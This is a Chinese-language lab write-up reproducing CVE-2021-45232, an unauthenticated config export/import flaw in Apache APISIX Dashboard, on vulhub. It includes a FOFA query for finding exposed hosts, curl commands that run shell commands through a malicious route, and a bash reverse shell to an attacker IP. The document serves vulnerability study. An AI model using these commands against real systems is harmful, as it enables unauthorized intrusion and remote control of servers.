# Apache APISIX Dashboard API权限绕过导致RCE

## 漏洞编号

```
CVE-2021-45232
```


## 漏洞描述

Apache APISIX是一个动态、实时、高性能API网关

而Apache APISIX Dashboard是一个配套的前端面板。

Apache APISIX Dashboard 2.10.1版本前存在两个API

```
/apisix/admin/migrate/export

/apisix/admin/migrate/import
```

他们没有经过droplet框架的权限验证，导致未授权的攻击者可以导出、导入当前网关的所有配置项，包括路由、服务、脚本等。

攻击者通过导入恶意路由，可以用来让Apache APISIX访问任意网站，甚至执行LUA脚本。


注意的是

Apache APISIX和Apache APISIX Dashboard是两个不同的服务

Apache APISIX Dashboard只是一个管理界面

而添加的路由是位于Apache APISIX中，所以需要找到Apache APISIX监听的端口或域名


## 影响版本

```
apache: 2.7.0 < APISIX Dashboard< 2.10.1	
```


## FOFA语法

```
title="Apache APISIX" && status_code="200" && country="CN"
```


## 环境配置

vulhub

```
docker-compose up -d
docker-compose ps
```



访问
192.168.1.15:9000



利用vulhub默认密码

admin：vulhub进入后台



新建新的路由





节点随意

然后一直下一步，最后提交即可





路由界面可以看到配置


访问

http://192.168.1.15:9000/apisix/admin/migrate/export





泄露路由配置


## 漏洞利用

利用给出的poc

```
python3 apisix_dashboard_rce.py http://192.168.1.15:9000
```




然后访问192.168.1.15:9080/4HJLTD

bp抓包

添加头部

CMD:id



成功执行id命令


利用curl执行

```
curl http://192.168.1.15:9080/4HJLTD -H "cmd:ls"
```


尝试反弹shell

```
nc -lvp 283
```



```
curl http://192.168.1.15:9080/4HJLTD -H "cmd:bash -i >& /dev/tcp/192.168.1.21/283 0>&1"
```




成功弹回shell


## 修复建议

更新到最新版本，新版本代理做了鉴权处理